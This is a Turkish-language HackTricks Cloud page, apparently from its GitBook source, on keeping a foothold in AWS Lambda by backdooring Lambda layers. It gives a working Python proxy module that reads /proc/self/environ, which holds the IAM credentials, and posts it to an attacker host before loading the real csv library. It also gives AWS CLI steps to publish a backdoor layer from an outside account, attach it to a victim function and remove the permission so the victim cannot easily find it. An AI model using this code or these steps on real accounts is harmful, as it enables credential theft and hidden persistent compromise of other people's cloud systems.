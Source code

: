 # AWS - Lambda Katmanları Kalıcılığı

{% hint style="success" %}
AWS Hacking'i öğrenin ve uygulayın:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve uygulayın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**Abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) katılın veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin**.
* **HackTricks** ve **HackTricks Cloud** github depolarına PR göndererek hacking püf noktalarını paylaşın.

</details>
{% endhint %}

## Lambda Katmanları

Bir Lambda katmanı, **ek kod veya diğer içeriği içerebilen** bir .zip dosyası arşividir. Bir katman kütüphaneler, [özel çalışma zamanı](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), veri veya yapılandırma dosyaları içerebilir.

Bir fonksiyona **beş katmana kadar** dahil edilebilir. Bir katmanı bir fonksiyona dahil ettiğinizde, **içerikler yürütme ortamında `/opt` dizinine çıkarılır**.

**Varsayılan olarak**, oluşturduğunuz **katmanlar** AWS hesabınıza **özeldir**. Bir katmanı diğer hesaplarla **paylaşabilir** veya katmanı **genel** yapabilirsiniz. Fonksiyonlarınız farklı bir hesabın yayınladığı bir katmanı tüketiyorsa, fonksiyonlarınız **katman sürümünü silindikten sonra veya katmana erişim izniniz iptal edildikten sonra** kullanmaya devam edebilir. Ancak silinen bir katman sürümünü kullanarak yeni bir fonksiyon oluşturamaz veya mevcut fonksiyonları güncelleyemezsiniz.

Konteyner görüntüsü olarak dağıtılan fonksiyonlar katmanları kullanmaz. Bunun yerine, tercih ettiğiniz çalışma zamanınızı, kütüphaneleri ve diğer bağımlılıkları görüntüyü oluştururken konteyner görüntüsüne paketlersiniz.

### Python yükleme yolu

Python'un lambda içinde kullanacağı yükleme yolu aşağıdaki gibidir:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
**Lambda katmanları** dosyalarını açtıkları dizinlerde **ikinci** ve üçüncü **pozisyonların** nasıl işgal edildiğini kontrol edin: **`/opt/python/lib/python3.9/site-packages`** ve **`/opt/python`**

{% hint style="danger" %}
Bir saldırganın kullanılan bir lambda **katmanına arka kapı eklemesi** veya **yürütülecek keyfi kod eklemesi** durumunda, her lambda çağrısında kötü amaçlı kodu yürütebilir hale gelecektir.
{% endhint %}

Bu nedenle, gereksinimler şunlardır:

* Kurban kodu tarafından **yüklendiği kontrol edilen kütüphaneler**
* Özgün kütüphaneyi **yükleyen ve özel kodu yürüten lambda katmanlarıyla bir proxy kütüphane oluşturun**.

### Önceden yüklenmiş kütüphaneler

{% hint style="warning" %}
Bu teknikten yararlanırken bir zorlukla karşılaştım: Bazı kütüphaneler, kodunuzun yürütüldüğünde python çalışma zamanında **zaten yüklenmiş** durumda. `os` veya `sys` gibi şeyler bulmayı bekliyordum, ama **hatta `json` kütüphanesinin bile yüklendiğini gördüm**.\
Bu kalıcılık tekniğinden yararlanmak için, kodun, kod yürütüldüğünde **yüklü olmayan yeni bir kütüphaneyi yüklemesi** gerekir.
{% endhint %}

Aşağıdaki gibi bir python kodu ile lambda içinde python çalışma zamanında **önceden yüklenmiş kütüphanelerin listesini** almak mümkündür:
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
Ve işte bu **liste** (kütüphanelerin, örneğin `os` veya `json` gibi, zaten mevcut olduğunu kontrol edin)
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
Ve bu, **lambda tarafından varsayılan olarak yüklenen kütüphanelerin listesi**dir: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Lambda Katmanı Geri Kapı Açma

Bu örnekte hedeflenen kodun **`csv`**'yi içe aktardığını varsayalım. **`csv` kütüphanesinin içe aktarımını geri kapılayacağız**.

Bunu yapmak için, lambda tarafından yüklenen bir yol olan **`/opt/python/lib/python3.9/site-packages`** içinde **`__init__.py`** dosyasına sahip **csv** adlı bir dizin oluşturacağız.\
Ardından, lambda çalıştırıldığında ve **csv** yüklenmeye çalışıldığında, **`__init__.py` dosyamız yüklenecek ve yürütülecektir**.\
Bu dosya şunları yapmalıdır:

* Yükümüzü yürüt
* Orijinal csv kütüphanesini yükle

Her ikisini de şu şekilde yapabiliriz:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
Sonra, bu kodu **`python/lib/python3.9/site-packages/__init__.py`** yolunda içeren bir zip dosyası oluşturun ve bir lambda katmanı olarak ekleyin.

Bu kodu [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor) adresinde bulabilirsiniz.

Entegre edilmiş payload, **çağrıldığında IAM kimlik bilgilerini bir sunucuya İLK DEFA gönderecek veya lambda konteynerinin sıfırlanmasından SONRA** (kod değişikliği veya soğuk lambda), ancak ayrıca aşağıdaki gibi **diğer teknikler** de entegre edilebilir:

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### Harici Katmanlar

Dikkat edilmesi gereken nokta, **harici hesaplardan lambda katmanları kullanmanın mümkün** olduğudur. Dahası, bir lambda, izinleri olmasa bile bir harici hesaptan bir katmanı kullanabilir.\
Ayrıca **bir lambdanın sahip olabileceği maksimum katman sayısının 5** olduğunu unutmayın.

Bu nedenle, bu tekniğin esnekliğini artırmak için bir saldırgan şunları yapabilir:

* Kullanıcının mevcut bir katmanını backdoorlayabilir (hiçbir şey harici değil)
* **Kendi hesabında bir katman oluşturabilir**, **kurban hesabına katmanı kullanma izni verir**, **kurban Lambda'da katmanı yapılandırır** ve **izinleri kaldırır**.
* **Lambda** hala **katmanı kullanabilecek** ve **kurbanın** katman kodunu **indirmenin kolay bir yolu olmayacak** (lambda içinde bir ters shell almadıkça)
* Kurban, **`aws lambda list-layers`** ile kullanılan **harici katmanları görmeyecek**

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

{% hint style="success" %}
AWS Hacking'i öğrenin ve uygulayın: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve uygulayın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**Abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) katılın veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking püf noktalarını paylaşarak PR'ler göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>
{% endhint %}
